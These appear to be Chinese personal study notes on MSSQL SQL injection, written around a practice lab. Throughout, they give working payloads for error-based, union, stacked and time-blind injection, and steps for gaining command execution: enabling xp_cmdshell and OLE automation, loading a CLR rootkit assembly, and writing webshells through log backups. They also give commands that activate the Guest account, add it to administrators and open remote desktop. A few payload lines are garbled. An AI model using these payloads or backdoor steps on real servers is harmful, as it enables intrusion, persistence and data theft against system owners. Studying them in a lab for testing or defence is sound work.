


MSSQL_SQL_BYPASS_WIKI/1.2.MSSQL信息收集.md at master · aleenzz/MSSQL_SQL_BYPASS_WIKI https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI/blob/master/1.2.MSSQL%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86.md
环境搭建
cn_windows_server_2008_r2_standard_enterprise_datacenter_and_web_with_sp1_x64_dvd_617598.iso
补丁：kb4474419 # 打了才能装vmtools 服务器管理器添加角色IIS 记得勾选.net开发 IIS管理器添加网站，开启父路径Sqlserver 2008
密码：SA123@ C:\Windows\SysWOW64\SQLServerManager10 开启TCP/IP
https://github.com/Larryxi/MSSQL-SQLi-Labs
创建数据库test 修改数据库配置文件
基础
系统数据库
master：master数据库控制SQL Server的所有方面。这个数据库中包括所有的配置信息、用户登录信息、当前正在服务器中运行的过程的信息。model：SQL Server为用户数据库提供的样板，新的用户数据库都以model数据库为基础msdb：由 Enterprise Manager和Agent使用，记录着任务计划信息、事件处理信息、数据备份及恢复信息、警告及异常信息。tempdb：它为临时表和其他临时工作提供了一个存储区。例如，排序时要用到tempdb数据库。数据被放进tempdb数据库，排完序后再把结果返回给用户。每次SQL Server重新启动，它都会清空tempdb数据库并重建。永远不要在tempdb数据库建立需要永久保存的表。
权限
sa（SysAdmin）权限：数据库操作，文件管理，命令执行，注册表读取等system。SQLServer数据库的最高权限db（Database_owner）权限：文件管理，数据库操作等权限 users-administratorspublic权限：数据库操作 guest-users
注释符
--
/**/
变量和函数
@@VERSION
@@servername -- 服务器名
host_name() -- 主机名
-- 判断站库分离
host_name()==@@servername
db_name() -- 当前数据库
db_name(num) -- 遍历其他数据库
user
user_name()
is_member('db_owner') -- 判断是否是db_owner权限
is_srvrolemember('sysadmin') -- 判断是否是SA权限
is_srvrolemember('public') -- 判断是否是public权限
数据表
master..sysdatabases -- 存放所有数据库
master..sysobjects -- 存放所有数据表
-- 字段名为name
select name from master..sysobjects where xtype='U' -- 查询用户自建表
[dbname].information_schema.columns -- db的所有字段
字段名table_name,column_name
[dbname].information_schema.tables -- db的所有表
字段名table_name
注入手段
报错注入
利用显示或隐式转换来报错注入
select * from admin where id =1 (select CAST(USER as int))
select * from admin where id =1 (select convert(int,user))

【SQL注入】详解基于MSSQL “order by”语句报错的SQL注入技术 – 绿盟科技技术博客 https://blog.nsfocus.net/mssql-order-by/
联合注入
判断字段

查找回显

爆库
?id=-1' union select 1,2,db_name(num)--爆表
?id=-1' union select top 1 1,2,name from [dbname]..sysobjects where xtype='u' -- ?id=-1' union select top 1 1,2,name from [dbname]..sysobjects where xtype='u' and name!='[第一条获得的表名]' -- ?id=-1' union select top 1 1,2,name from [dbname]..sysobjects where xtype='u' and name not in ([前面的表]) --爆字段
?id=-1' union select top 1 1,2, COLUMN_NAME from test.information_schema.columns where TABLE_NAME='users' -- ?id=-1' union select top 1 1,2, COLUMN_NAME from test.information_schema.columns where TABLE_NAME='users' and COLUMN_NAME and COLUMN_NAME!='id' -- ?id=-1' union select top 1 1,2, COLUMN_NAME from test.information_schema.columns where TABLE_NAME='users' and COLUMN_NAME not in ('id','username') --- 爆字段值
```mssql ?id=-1' union select top 1 1,2, COLUMN_NAME from 'users' --
?id=-1' union select top 1 1,2,username from users where username!='Dumb'--
?id=-1' union select top 1 1,2,username from users where username not in ('Dumb','Angelina')--
## 堆叠注入
默认开启
## 时间盲注
```mssql
if(xxx) waitfor delay '0:0:2'
0:0:2
小时:分钟:秒
GetShell
绝对路径🔍
xp_dirtree是一个存储过程（stored procedure），它是 Microsoft SQL Server 数据库引擎提供的一个内置过程。该过程可用于执行文件系统目录树扫描操作。使用
xp_dirtree存储过程，可以指定一个文件路径，然后执行递归扫描该路径下的所有文件和文件夹，并将结果以表格形式返回给用户
execute master..xp_dirtree 'c:' //列出所有c:\文件和目录,子目录
execute master..xp_dirtree 'c:',1 //只列c:\文件夹
execute master..xp_dirtree 'c:',1,1 //列c:\文件夹加文件
CREATE TABLE tmp (dir varchar(8000),num int,num1 int);
insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1
CREATE TABLE cmdtmp (dir varchar(8000));
insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'

SA权限
xp_cmdshell
是否开启
select count(*) FROM master..sysobjects Where xtype = 'X' AND name = 'xp_cmdshell' 返回值为1 → 开启强制开启
-- 将该选项的值设置为1 execute('sp_configure "show advanced options",1') -- 保存设置 execute('reconfigure') -- 将xp_cmdshell的值设置为1 execute('sp_configure "xp_cmdshell", 1') -- 保存设置 execute('reconfigure')恢复被删除的
xp_cmdshell下载：https://cn.dll-files.com/xplog70.dll.html
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'命令执行--有回显（返回命令结果）
execute('xp_cmdshell "whoami"')获得主机权限
版本问题？？
exec xp_cmdshell 'net user Guest 123456' --给guest用户设置密码 exec xp_cmdshell 'net user Guest /active:yes' --激活guest用户 exec xp_cmdshell 'net localgroup administrators Guest /add' --将guest用户添加到administrators用户组 exec xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' --开启3389端口
sp_oacreate
是否开启
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE' 返回值为1 → 开启强制开启
EXEC sp_configure 'show advanced options', 1; RECONFIGURE WITH OVERRIDE; EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE WITH OVERRIDE;命令执行--无回显（不返回命令结果）
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami > e:\\test2.txt'
CLR功能
CLR（公共语言运行时）提供了 .NET Framework 的代码执行环境，可以通过 .NET Framework 来编写存储过程、触发器等功能 。简单说，通过 CLR 能够在 SQLServer 中注册一套程序集，实现执行任意的 .NET 代码。既然可以执行代码，此时就可以实现很多功能。
使用：https://github.com/mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit
--启用MSSQL CLR功能
exec sp_configure 'show advanced options', 1;
RECONFIGURE;
Exec sp_configure 'clr enabled', 1;
RECONFIGURE;
--为了导入了不安全的程序集，我们还需要将数据库标记为安全。
ALTER DATABASE [master] SET TRUSTWORTHY ON;
--导入程序集，单独执行
xxx
--创建存储过程,单独执行
CREATE PROCEDURE sp_cmdExec @Command [nvarchar](4000) WITH EXECUTE AS CALLER AS EXTERNAL NAME WarSQLKit.StoredProcedures.CmdExec;
--执行命令
EXEC sp_cmdExec 'whoami';
--删除该程序集
DROP PROCEDURE sp_cmdExec;DROP ASSEMBLY [WarSQLKit];
db_owner权限
LOG备份
- 存在数据库备份文件
- 网站的绝对路径
- 堆叠注入
alter database 数据库名 set RECOVERY FULL; --修改数据库恢复模式为 完整模式
create table cmd (a image); --创建一张表cmd，只有一个列 a，类型为image
backup log 数据库名 to disk= 'C:\phpstudy\WWW\1.php' with init; --备份表到指定路径
insert into cmd (a) values(木马十六进制); --插入一句话到cmd表里
backup log 数据库名 to disk='C:\phpstudy\WWW\2.php'; --把操作日志备份到指定文件
drop table cmd; --删除cmd表
2.php为木马文件
差异备份
注：差异备份有概率会把网站搞崩，所以不建议使用差异备份
- 网站的绝对路径
- 堆叠注入
create table [dbo].[test] ([cmd] [image])
declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=0x6b 68617a backup log @a to disk = @s with init,no_truncate
insert into [test](cmd) values(木马十六进制)
declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=绝对路径十六进制 backup log @a to disk=@s with init,no_truncate
Drop table [test]
补充--待学习
MSSQL 2017--Python和R脚本
沙盒命令执行
Agent Job命令执行
https://xz.aliyun.com/t/7534#toc-17
实战问题记录
语法报错

实际上是sql基础不行，u_lastactive字段类型为日期类型，后面的值跟的是字符串类型，所以会报错，换一个字符串类型的字段或者进行类型转换即可

类型转换

如何分页查询
| 目的 | SqlServer(mssql) | Mysql |
|---|---|---|
| 取第m条到第n条记录 | select top (n-m+1) name from users where name not in (select top m-1 name from users) | select name from users limit m, n |
使用模糊查询，重点是提取可浮动的值
如何去重
distinct